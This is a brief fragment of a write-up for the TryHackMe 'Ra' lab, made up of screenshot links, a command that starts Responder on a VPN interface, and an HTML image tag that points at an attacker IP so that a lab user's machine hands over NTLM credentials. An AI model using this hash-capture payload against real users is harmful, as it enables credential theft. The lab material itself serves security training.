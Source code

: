 ![Ra](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Ra/screenshots/20250506190657.png)
##### Start responder
```
responder -I tun1
```
### payload
```
<img src=10.11.134.170/test.img>
```
 
```
 buse@fire.windcorp.thm
```
![Ra](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Ra/screenshots/20250506192109.png)
